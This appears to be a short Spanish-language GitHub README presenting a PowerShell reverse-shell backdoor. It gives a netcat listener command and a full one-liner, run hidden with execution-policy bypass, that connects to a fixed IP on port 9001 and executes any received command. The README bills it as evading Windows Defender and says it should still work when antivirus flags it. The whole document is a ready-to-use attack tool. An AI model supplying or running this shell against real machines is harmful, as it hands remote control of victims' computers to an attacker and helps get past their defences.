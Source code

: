 # PowShell.ps1
Comando de PowerShell ofuscado para realizar un backdoor, indetectable para windows defender, ideal para realizar PE 

## Primero debes tener el listening listo en kali linux / otra distro

kovax00@Fsociety$: sudo nc -lvp 9001

## Luego colocar este shell en cmd

powershell -nop -W hidden -noni -ep bypass -c "$x0001 = New-Object Net.Sockets.TCPClient('192.168.232.130', 9001);$NetworkStream = $x0001.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$x0001.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'Kovax00@Fsociety$: ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$x0003 = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$x0003 = try {Invoke-Expression $x0003 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($x0003)}$StreamWriter.Close()"

## Si lo llega a detecta el antivirus por razon de "Quemado" aun asi deberia funcionar la conexion por cmd mientras no lo tengas en un archivo.

Happy hunting 
